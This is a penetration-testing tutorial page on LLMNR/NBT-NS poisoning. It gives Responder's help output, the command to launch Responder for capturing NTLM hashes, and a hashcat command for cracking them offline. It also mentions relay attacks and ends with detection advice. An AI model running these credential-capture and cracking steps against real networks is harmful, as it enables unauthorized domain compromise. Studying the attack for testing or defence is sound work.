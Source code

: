 # LLMNR/NBT-NS Poisoning

## Introduction

### Password Spraying and Poisoning

* The goal of these attacks are to acquire a valid set of credentials for a domain user account
* In return, we will be granted a foothold in the domain and we can begin the next phase of enumeration with credentials!

## LLMNR & NBT-NS

LLMNR: Link-Local Multicast Name Resolution

NBT-NS: NetBIOS Name Service

* Both are ways that serve as alternate methods of host identification when DNS fails
* We can attack these protocols by using the Man-in-The-Middle technique&#x20;
* <mark style="color:yellow;">The reason that LLMNR and NBT-NS are such a target is because any host on the network can reply to name resolution requests which is why we can poison these requests with Responder</mark>
* The poisoning works because the attacker pretends to know the location of the requested host
* We can then capture their NTLM hash and take it offline and crack it or attempt to Pass The Hash if the NTLM version is NTLMv1 and not NTLMv2
* The captured authentication request can also be relayed (Impacket-ntlmrelayx) to access another host or to be used against a different protocol such as LDAP on the same host

### Overall

* A mixture of LLMNR & NBT-NS in an environment will lead to a bad day
* Especially when those two network protocols are associated with a lack of SMB signing
* This can lead to SMB relay attacks; granting the attacker administrative access on the hosts in a domain

## Responder

Responder is capable of attacking the following networking protocols:

* LLMNR
* DNS
* MDNS
* NBNS
* DHCP
* ICMP
* HTTP
* HTTPS
* SMB
* LDAP
* WPAD
* WebDAV

### In Action

Responder Help Page:

```
responder -h
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

Usage: responder -I eth0 -w -r -f
or:
responder -I eth0 -wrf

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -A, --analyze         Analyze mode. This option allows you to see NBT-NS,
                        BROWSER, LLMNR requests without responding.
  -I eth0, --interface=eth0
                        Network interface to use, you can use 'ALL' as a
                        wildcard for all interfaces
  -i 10.0.0.21, --ip=10.0.0.21
                        Local IP to use (only for OSX)
  -e 10.0.0.22, --externalip=10.0.0.22
                        Poison all requests with another IP address than
                        Responder's one.
  -b, --basic           Return a Basic HTTP authentication. Default: NTLM
  -r, --wredir          Enable answers for netbios wredir suffix queries.
                        Answering to wredir will likely break stuff on the
                        network. Default: False
  -d, --NBTNSdomain     Enable answers for netbios domain suffix queries.
                        Answering to domain suffixes will likely break stuff
                        on the network. Default: False
  -f, --fingerprint     This option allows you to fingerprint a host that
                        issued an NBT-NS or LLMNR query.
  -w, --wpad            Start the WPAD rogue proxy server. Default value is
                        False
  -u UPSTREAM_PROXY, --upstream-proxy=UPSTREAM_PROXY
                        Upstream HTTP proxy used by the rogue WPAD Proxy for
                        outgoing requests (format: host:port)
  -F, --ForceWpadAuth   Force NTLM/Basic authentication on wpad.dat file
                        retrieval. This may cause a login prompt. Default:
                        False
  -P, --ProxyAuth       Force NTLM (transparently)/Basic (prompt)
                        authentication for the proxy. WPAD doesn't need to be
                        ON. This option is highly effective when combined with
                        -r. Default: False
  --lm                  Force LM hashing downgrade for Windows XP/2003 and
                        earlier. Default: False
  -v, --verbose         Increase verbosity.
```

Arguments:

* <mark style="color:yellow;">-A: Analyze mode</mark>; this will allow you to see <mark style="color:yellow;">NBT-NS, BROWSER, and LLMNR</mark>
  * This will NOT poison your requests
* <mark style="color:yellow;">-wf</mark>: This will start the <mark style="color:yellow;">WPAD rogue server</mark> and <mark style="color:yellow;">fingerprint</mark> the remote host OS and version
* \-v: Additional Verbosity
* <mark style="color:yellow;">-w</mark>: <mark style="color:yellow;">WPAD proxy server</mark>; it will capture all HTTP requests by any users that launch Internet Explorer!

### Starting Responder w/ Default Settings

```
sudo responder -I ens224
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

* You should always start Responder and let it run for a while and you can perform additional tasks in the foreground
* However, we can take this hash and crack it offline

### Hashcat

```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

* Password cracked!

## How to Detect this kind of Behavior

It is not always possible to disable LLMNR and NetBIOS, and therefore we need ways to detect this type of attack behavior. One way is to use the attack against the attackers by injecting LLMNR and NBT-NS requests for non-existent hosts across different subnets and alerting if any of the responses receive answers which would be indicative of an attacker spoofing name resolution responses.&#x20;

Furthermore, hosts can be monitored for traffic on ports UDP 5355 and 137, and event IDs 4697 and 7045 can be monitored for. Finally, we can monitor the registry key HKLM\Software\Policies\Microsoft\Windows NT\DNSClient for changes to the EnableMulticast DWORD value. A value of 0 would mean that LLMNR is disabled.


